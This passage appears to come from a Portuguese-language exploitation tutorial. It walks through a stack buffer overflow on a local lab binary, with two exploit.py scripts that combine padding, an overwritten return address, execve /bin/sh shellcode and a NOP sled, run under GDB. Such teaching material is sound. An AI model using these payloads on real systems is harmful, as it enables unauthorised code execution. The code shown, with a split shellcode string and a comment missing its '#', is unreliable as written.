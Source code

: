 `$ cat exploit.py`
```python
#!/usr/bin/python

import struct

shell = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6
\xb8\x3b\x00\x00\x00\x0f\x05"

#offset
payload = "A" * 56
#endereco de retorno
payload += struct.pack("<Q", 0x7fffffffdf00)
#shellcode
payload += shell

print payload
```
Para enviar o exploit via GDB, pode ser utilizado o comando `r < <(python exploit.py)`. Ao executar o binário via GDB enviando este script, é possível obter o retorno de que o programa chamou o `/bin/dash`, conforme imagem abaixo:

![Programa chamando /bin/dash via GDB.](/std/linbof/gdb-6.png)

O exploit está funcional quando é executado por dentro do GDB, pois o endereço de retorno encontrado, considera não so o binário, mas o próŕio GDB. Porém, quando é executado via terminal, existe um decremento não específico dos endereços de memória, como não é possível "adivinhar" este decremento, o script pode ser adaptado com a técnica de *NOP Sled*.

#### NOP Sled

O *opcode* `NOP`, representado pelo byte `\x90`, é uma instrução Assembly que não faz absolutamente nada. Quando é inserido uma cadeia de NOPs, o programa simplesmente "desliza" sobre eles. Como não é possível descobrir o decremento dos valores de memória, é possível fazer um acréssimo no endereço de retorno seguido de uma cadeia de NOPs.
Isto vai fazer com que o endereço de retorno aponte para um lugar bem abaixo da *Stack*, e logo em seguida o programa vai percorrer os NOPs até o *shellcode*, fazendo com que o exploit se adapte às diferenças de endereços. O sicript adaptado fica como abaixo:

`$ cat exploit.py`
```python
#!/usr/bin/python

import struct

#cadeia de NOPs
nops = "\x90" * 200

shell = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6
\xb8\x3b\x00\x00\x00\x0f\x05"

#offset
payload = "A" * 56
Endereço de retorno acrescido de 200
payload += struct.pack("<Q", 0x7fffffffdf00 + 200)
#cadeia de NOPs
payload += nops
#shellcode
```